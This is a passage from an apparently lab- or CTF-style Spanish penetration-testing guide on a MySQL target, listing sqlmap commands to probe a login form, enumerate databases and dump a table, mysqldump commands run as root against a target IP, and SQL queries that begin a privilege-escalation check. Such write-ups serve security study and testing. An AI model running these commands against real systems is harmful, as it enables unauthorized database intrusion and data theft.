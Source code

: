 
## 10. HERRAMIENTAS COMPLEMENTARIAS

### 10.1 SQLMap para Automatización

```bash
# Escaneo básico de vulnerabilidades SQL
sqlmap -u "http://target/login.php" --data="username=admin&password=admin"

# Enumeración de bases de datos
sqlmap -u "target_url" --dbs

# Enumeración de tablas
sqlmap -u "target_url" -D detective_inspector --tables

# Volcado de datos
sqlmap -u "target_url" -D detective_inspector -T hacker_list --dump
```

### 10.2 MySQLDump para Respaldos

```bash
# Respaldar base de datos específica
mysqldump -h <IP_objetivo> -u root detective_inspector > backup.sql

# Respaldar todas las bases de datos
mysqldump -h <IP_objetivo> -u root --all-databases > full_backup.sql

# Respaldar estructura sin datos
mysqldump -h <IP_objetivo> -u root --no-data detective_inspector > structure.sql
```

### 10.3 Herramientas de Análisis

**MySQL Workbench (GUI):**
```bash
# Conexión gráfica para análisis visual
mysql-workbench
```

**DBeaver (Multiplataforma):**
```bash
# Herramienta universal de base de datos
dbeaver
```

---

## 11. VECTORES DE ESCALACIÓN DE PRIVILEGIOS

### 11.1 Análisis de Configuración

```sql
-- Verificar configuración de seguridad
SHOW VARIABLES LIKE 'secure_file_priv';
SHOW VARIABLES LIKE 'local_infile';

-- Verificar plugins cargados
SHOW PLUGINS;
SELECT * FROM INFORMATION_SCHEMA.PLUGINS;
```
